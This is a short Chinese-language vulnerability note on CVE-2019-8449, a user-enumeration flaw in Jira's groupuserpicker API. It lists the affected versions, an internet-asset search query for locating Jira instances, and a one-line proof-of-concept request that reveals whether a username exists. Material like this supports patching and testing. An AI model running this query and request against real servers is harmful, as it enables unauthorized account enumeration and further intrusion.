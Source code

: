 # Atlassian Jira groupuserpicker 用户信息枚举漏洞 CVE-2019-8449

## 漏洞描述

Atlassian Jira groupuserpicker接口存在用户信息枚举漏洞，攻击者通过漏洞可以获取应用中的使用者账户名称，来进行进一步渗透

## 漏洞影响

```
Atlassian Jira <8.4.0
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](images/202205241426135.png)验证POC

```
/rest/api/latest/groupuserpicker?query=admin&maxResults=50&showAvatar=false
```

当用户存在时

![](images/202205241426482.png)

当用户不存在时

![](images/202205241427885.png)